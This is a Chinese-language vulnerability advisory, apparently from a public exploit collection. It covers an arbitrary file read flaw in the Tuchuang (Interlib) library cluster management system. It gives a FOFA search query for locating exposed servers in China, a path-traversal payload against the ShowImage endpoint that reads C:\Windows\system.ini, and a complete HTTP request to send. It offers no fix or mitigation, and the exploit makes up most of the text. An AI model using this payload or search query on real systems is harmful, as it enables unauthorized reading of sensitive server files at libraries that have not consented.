

## 图创图书馆集群管理系统存在任意文件读取漏洞

## 漏洞描述

广州图创计算机软件开发有限公司是集产品研发、应用集成、客户服务为一体的高新技术企业，主要目标是为图书馆行业用户提供高质量的应用软件系统设计、集成和维护服务，利用漏洞，攻击者可以读取 Windows 或 Linux 服务器上的任意文件。利用文件读取漏洞，攻击者可以获取到系统文件信息，从而造成敏感信息泄露。

## 漏洞影响

> 图创图书馆集群管理系统

## FOFA

> "广州图创" && country="CN" && body="/interlib/common/"

## 漏洞复现

漏洞payload：

```
/interlib/report/ShowImage?localPath=C:\Windows\system.ini
```



```
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: XXX.XXX.XXX.XXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://xxx.xxx.xxx.xxx
Connection: close
Cookie: JSESSIONID=657073E5FCD2C4BA12239182D01B1993
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```